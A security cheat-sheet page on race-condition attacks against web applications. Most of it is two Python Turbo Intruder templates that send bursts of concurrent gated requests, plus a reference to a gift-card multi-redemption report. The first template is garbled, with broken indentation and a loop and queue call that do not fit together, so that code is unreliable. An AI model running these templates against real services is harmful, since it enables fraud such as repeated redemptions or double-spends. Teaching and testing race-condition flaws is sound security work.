 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language.

## Tools

- [Turbo Intruder - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.](https://github.com/PortSwigger/turbo-intruder)

## Turbo Intruder Examples

1.  Send request to turbo intruder
2.  Use this python code as a payload of the turbo intruder
    
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )
    
    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')
    
    
        engine.start(timeout=5)
    engine.openGate('race1')
    
        engine.complete(timeout=60)
    
    
    def handleResponse(req, interesting):
        table.add(req)
    ```
    
3.  Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4.  Click "Attack"

## Turbo Intruder 2 Requests Examples

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## References

- [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
- [Turbo Intruder: Embracing the billion-request attack - James Kettle | 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
- [Race Condition Bug In Web App: A Use Case - Mandeep Jadon](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)